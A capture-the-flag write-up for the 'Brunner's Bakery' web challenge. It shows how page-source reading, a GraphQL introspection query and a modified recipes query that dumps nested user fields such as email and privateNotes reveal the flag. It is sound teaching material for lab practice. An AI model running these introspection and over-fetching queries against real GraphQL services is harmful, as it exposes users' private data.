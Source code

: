# Brunner's Bakery

## Challenge Details

Difficulty: Medium\
Author: Quack

> Recent Graphs show that we need some more Quality of Life recipes! Can you go check if the bakery is hiding any?!

We are then given a link to a site with a bunch of simple recipes.

![alt text](image.png)

## Reconnaissance

Looking at the site, there's no interactive elements and nothing stands out so I immediately just go to look at the page source. Here we find a very interesting script block.

```
<script>
    fetch('/graphql', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ query: 'query { publicRecipes { name description author { displayName } ingredients { name } } }' })
    })
    .then(res => res.json())
    .then(data => {
    const container = document.getElementById('recipes');
    (data.data.publicRecipes || []).forEach(r => {
        const div = document.createElement('div');
        div.className = 'card';
        div.innerHTML = '<div class="title">' + r.name + '</div>' +
                        '<div class="author">by ' + r.author.displayName + '</div>' +
                        '<div class="desc">' + r.description + '</div>' +
                        '<div style="font-size:0.8rem;color:#777;margin-top:0.5rem;">Ingredients: ' + r.ingredients.map(i => i.name).join(', ') + '</div>';
        container.appendChild(div);
    });
    });
</script>
```

We can see the script seems to send a POST request to `/graphql` with some kind of query, and then uses that request to build the table of recipes we see on the page. To make it a bit clearer I opened the page with Burpsuite on and sent the POST request to my Repeater.

![alt text](image-1.png)

Now we can easily see the query being sent and the data being returned in a JSON format. In Burpsuite, I then edited the request to send the following query:

```
query {
  __schema {
    types {
      name
      fields {
        name
      }
    }
  }
}
```

Going through the schema there are a few different types that stand out. A few that seem interesting are the "me" type and "User" type. This implies that there is some sort of account system.

If we look at the initial query that the page makes it includes an "author" field. Additionally, the ingredient type includes an "owner" field. These both look like they could be users.

## Solution

To probe further all we have to do is take the original query and modify it so it dumps all the available "User" fields.

```
query { publicRecipes { name description author { id username displayName email notes privateNotes } ingredients { name supplier { id name owner { id username displayName email notes privateNotes } } } } }
```

Checking the output in Burpsuite we find our flag.

![alt text](image-2.png)

Flag: `brunner{Gr4phQL_1ntR0sp3ct10n_G035_R0UnD_4Nd_r0uND}`
